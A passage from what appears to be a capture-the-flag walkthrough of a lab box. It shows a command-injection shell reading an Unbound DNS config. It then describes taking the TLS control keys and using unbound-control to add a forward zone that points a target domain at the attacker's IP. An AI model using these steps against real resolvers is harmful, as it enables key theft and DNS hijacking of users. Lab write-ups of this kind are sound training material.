     
    
    injection> read /var/unbound/etc/unbound.conf
    server:
            interface: 127.0.0.1
            interface: ::1
            access-control: 0.0.0.0/0 refuse
            access-control: 127.0.0.0/8 allow
            access-control: ::0/0 refuse
            access-control: ::1 allow
            hide-identity: yes
            hide-version: yes
            msg-cache-size: 0
            rrset-cache-size: 0
            cache-max-ttl: 0
            cache-max-negative-ttl: 0
            auto-trust-anchor-file: "/var/unbound/db/root.key"
            val-log-level: 2
            aggressive-nsec: yes
            include: "/var/unbound/etc/conf.d/local_zones.conf"
    
    remote-control:
            control-enable: yes
            control-interface: 0.0.0.0
            control-use-cert: yes
            server-key-file: "/var/unbound/etc/tls/unbound_server.key"
            server-cert-file: "/var/unbound/etc/tls/unbound_server.pem"
            control-key-file: "/var/unbound/etc/tls/unbound_control.key"
            control-cert-file: "/var/unbound/etc/tls/unbound_control.pem"
    

Control is enabled on all interfaces, and it’s using certs. I’ll read
`unbound_server.pem`, `unbound_control.key` and `unbound_control.pem`, and
save them in `/etc/unbound` on the local VM. Now I can connect to Unbound:

    
    
    oxdf@parrot$ sudo unbound-control -s 10.10.10.232 status
    version: 1.11.0
    verbosity: 1
    threads: 1
    modules: 2 [ validator iterator ]
    uptime: 21 seconds
    options: control(ssl)
    unbound (pid 44818) is running...
    

I played with a bunch of other commands on the [man
page](https://www.nlnetlabs.nl/documentation/unbound/unbound-control/), but
didn’t find much useful. Many of the commands didn’t exist (`view_local_zone`,
`auth_zone_transfer`, `list_auth_zone`, etc). I can’t set up individual
domains, but it looks like I can add a forward for a zone:

    
    
    oxdf@parrot$ sudo unbound-control -s 10.10.10.232 forward_add +i employees.crossfit.htb 10.10.14.13@53
    ok
    